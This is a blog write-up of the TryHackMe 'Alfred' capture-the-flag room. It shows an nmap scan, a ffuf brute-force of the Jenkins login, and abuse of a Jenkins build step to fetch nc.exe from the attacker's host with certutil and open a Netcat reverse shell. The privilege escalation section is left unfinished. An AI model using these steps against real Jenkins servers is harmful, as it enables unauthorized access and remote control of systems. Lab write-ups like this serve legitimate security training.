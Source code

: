 ```yaml
---
layout: post
description: Exploit Jenkins to gain an initial shell, then escalate your privileges by exploiting Windows authentication tokens.
title: Tryhackme Alfred CTF Writeup
date: 2021-12-28 11:40
image: '/assets/img/posts/tryhackme-alfred-ctf-writeup/alfredbanner.png'
tags: [TryHackme-Machines]
featured: false
---
```



# Enumeration

Run Network Mapper (**nmap**) on Alfred machine to discover opened ports and services.   

Full command : 
{% highlight bash %}
nmap -sV -sS -O -T4 -p- {machine IP} -Pn -oN {outputfile}
{% endhighlight %}

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-sV                     | Probe open ports to determine service/version info     |
|-sS                     | SYN, half TCP scan                                     |
|-O                      | Enable OS detection                                    |
|-T4                     | T{0-5} Set scan speed, higher is faster                |
|-p-                     | Scan all 65536 ports                                   |
|-Pn                     | Skip host discovery                                    |
|-oN                     | Write output to a file                                 |

Output of the scan:
{% highlight bash %}
# Nmap 7.92 scan initiated Tue Dec 28 09:22:17 2021 as: nmap -sV -sS -O -T4 -p- -Pn -oN alfred.nmap 10.10.195.99
Nmap scan report for 10.10.195.99
Host is up (0.030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE    VERSION
80/tcp   open  http       Microsoft IIS httpd 7.5
3389/tcp open  tcpwrapped
8080/tcp open  http       Jetty 9.4.z-SNAPSHOT
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (90%), Microsoft Windows Server 2008 (90%), Microsoft Windows Server 2008 R2 (90%), Microsoft Windows Server 2008 R2 or Windows 8 (90%), Microsoft Windows 7 SP1 (90%), Microsoft Windows 8.1 Update 1 (90%), Microsoft Windows 8.1 R1 (90%), Microsoft Windows Phone 7.5 or 8.0 (90%), Microsoft Windows 7 or Windows Server 2008 R2 (89%), Microsoft Windows Server 2008 or 2008 Beta 3 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 28 09:24:13 2021 -- 1 IP address (1 host up) scanned in 115.63 seconds
{% endhighlight %}

Three ports are opened:
## Port 80 http Microsoft IIS httpd 7.5
Ordinary [**Microsoft IIS**](https://en.wikipedia.org/wiki/Internet_Information_Services) web server.
<br>Nothing fancy here.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/2.png)

## Port 3389 tcpwrapped
**tcpwrapped** means that the remote host closed the connection after completing the TCP three-way handshake without receiving any data.
<br>[**More information here**.](https://secwiki.org/w/FAQ_tcpwrapped)

## Port 8080 Jetty 9.4.z-SNAPSHOT

There is a [**Jenkins**](https://www.geeksforgeeks.org/what-is-jenkins/) login prompt on port 8080.
<br>![](/assets/img/posts/tryhackme-alfred-ctf-writeup/3.png)<br>
If you google it, you will see the default login credentials for Jenkins is **admin** for the username and **admin** for the password.
However, the system administrator could have changed the password to a different one. In that case default credentials
would be useless. So we will brute force the credentials for best practice.<br>

# Exploitation

In order to create a continuous HTTP request, we have to know how the HTTP request looks.
Launch the [**Burp Suite**](https://www.geeksforgeeks.org/what-is-burp-suite/) to examine the HTTP POST request sent 
when a login attempt occurs.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/4.png)_Request_<br><br>
There are three fields we have to make sure they are being sent with the HTTP request we will forge for this form.
1. [**application/x-www-form-urlencoded**](https://www.w3.org/TR/html401/interact/forms.html#h-17.13.4) : Encoding type
2. **j_username** : Username field
3. **j_password** : Password Field

I will use [**ffuf**](https://cybersecnerds.com/ffuf-everything-you-need-to-know/) to create POST requests toward the web server.
You can use any fuzzer tool like **THC Hydra**, **Burp Suite** or others. 
<br>Download [**SecLists**](https://github.com/danielmiessler/SecLists) repo with prepeared wordlists included.

| Parameter              | Functionality                                          | 
|:-----------------------|:-------------------------------------------------------|
|-w                      | Dedicated wordlists                                    |
|-u                      | Target URL                                             |
|-data                   | Data which will be sent with the request               |
|-H                      | HTTP headers that will be sent with the request        |
|-fr                     | Regex which will be filtered out                       |


Full command:
{% highlight bash %}
ffuf -w SecLists/Usernames/top-usernames-shortlist.txt:W1,SecLists/Passwords/Common-Credentials/best1050.txt:W2 -u "http://10.10.56.186:8080/j_acegi_security_check" -data "j_username=W1&j_password=W2" -H "Content-Type: application/x-www-form-urlencoded" -fr "loginError"
{% endhighlight %}

![](/assets/img/posts/tryhackme-alfred-ctf-writeup/6.png)__Cracked the credentials, well done :)__<br><br>
A possible question would be, why filter out "loginError" string ? 
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/5.png)_Left: Request - Right:Response_<br><br>
That sent request got a response with [**HTTP 302 status code**](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/302), which is the status code for redirection.
It means whenever the application receives invalid credentials from the client; the server redirects the client to the "/loginError" URL.
Based on this, as long as the HTTP response does not include "/loginError" in it, it is safe to say we have sent a valid username-password pair
to the server.
<br><br>
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/7.png)__Login to the Jenkins panel via credentials.__

It is possible to do anything that Jenkins can do since we have an admin portal right now.However, if we could get a shell from the
system, it would be amazing.<br><br>
The way to get a shell from the system is to make Jenkins transmit and execute code in the system shell.<br>
Click on the first project named as **project**, then click **configure**.
Scroll down to the bottom, and you will see a box that executes the windows command written in it.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/9.png)<br>
On the project page, there is a **Build History** section. It is available to check the output of the batch command that had run.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/8.png)
Now, instead of printing the string value of the user who executes it with the **whoami** command, we have to connect to that shell.

<br>I will use [**Netcat**](https://www.ionos.com/digitalguide/server/tools/netcat/) in this manner. It is required to have Netcat downloaded in both the attacker and the
victim machine.
- Download static [**nc.exe**](https://github.com/andrew-d/static-binaries/blob/0be803093b7d4b627b4d4eddd732e54ac4184b67/binaries/windows/x86/ncat.exe) binary for to run it in the victim machine 
- Start a Python3 server in the directory that includes the Netcat static binary file.
<br>Run:
{% highlight shell%}
sudo python3 -m http.server 80
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/10.png)
- Start a Netcat listener in the attacker machine.
<br>Run:
{% highlight shell%}
nc -nvlp {ANY FREE PORT}
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/11.png)
- Download the static binary to the victim machine from the Python web server and run it.
{% highlight powershell%}
certutil.exe -urlcache -split -f http://{THM IP}:80/nc.exe
{% endhighlight %}
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/12.png)
- Click **Build** button on the project page.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/13.png)

A get request was made to the web server.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/14.png)
Then we got the shell.
![](/assets/img/posts/tryhackme-alfred-ctf-writeup/15.png)__We are in, nice progress ;)__
To get user flag, run:
{% highlight powershell %}
type "C:\Users\Bruce\Desktop\user.txt"
{% endhighlight%}

# Privilege Escelation

To be continued...
